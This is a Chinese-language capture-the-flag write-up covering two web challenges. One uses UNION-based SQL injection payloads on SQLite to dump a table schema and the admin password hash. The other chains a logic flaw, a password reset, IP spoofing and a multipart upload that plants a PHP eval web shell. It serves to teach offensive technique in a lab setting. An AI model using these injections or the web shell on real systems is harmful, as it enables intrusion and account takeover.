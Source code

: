 看到SQL没有任何过滤，尝试注入，注入结果可以通过Cookie显示。

前置知识：sqlite的元数据存放在一个叫做sqlite_master的表中

首先得到表名。`'union select 1,group_concat(name) from sqlite_master`，group_concat聚集函数用来把所有表名都得到，返回结果：`Users,sqlite_autoindex_Users_1`

查询Users表即可。获得表的原信息有一个简单的方法：查询sqlite_master中的sql字段，这是对应表的建表语句。构造语句：`'union select 1,sql from sqlite_master where name="Users"--`，得到结果`CREATE TABLE Users(id int primary key,name varchar(255),password varchar(255),hint varchar(255))`，从中可以看出各个字段。

语句`'union select 1,password from Users where name="admin"--`得到密码的sha1值：`3fab54a50e770d830c0416df817567662a9dc85c`

语句`'union select 1,hint from Users--`得到hint： `my fav word in my fav paper?!`，看起来是密码了，但是怎么找他的fav word 和 fav paper呢？

其实可以直接网查md5。。`ThinJerboaSalz!`去掉Salz!就可以了

登录就有flag`flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}`

或者也可以全都看一遍。。用wget把所有pdf都爬下来

[wget命令详解](https://www.cnblogs.com/ftl1012/p/9265699.html)

```
wget http://111.198.29.45:34550/ -r -np -nd -A .pdf
```

其中：-r表示递归，-nd表示不下载重复文件，-np表示不要递归到父目录，-A表示下载文件的类型。

接下来可以写个python脚本把所有的单词搞下来

## bug

注册登陆功能。我注册了一个账号，用户名123，密码123，生日2015/01/01，地址123。返回了uid=5

登录后发现cookie中多了个sessionid和user，user用md5解密后是5:123，也就是uid加上用户名。

personal页面有逻辑漏洞，这里直接获得admin的信息。

```
UID 	1
Username 	admin
Birthday 	1993/01/01
Address 	福建省福州市闽侯县
```

去findpwd，使用这些信息，修改密码，成功登陆。

然后提示IP不允许，抓包修改一下。界面没有显示flag，但提示了一个页面：`module=filemanage&do=???`，于是尝试一下do参数的值，改成upload，进入上传界面。

简单滴绕一下就可以了

```
-----------------------------384910805270038131130524863
Content-Disposition: form-data; name="upfile"; filename="shl.php5"
Content-Type: image/jpeg

<script language="php">@eval($_POST[pass])</script>
-----------------------------384910805270038131130524863--
```
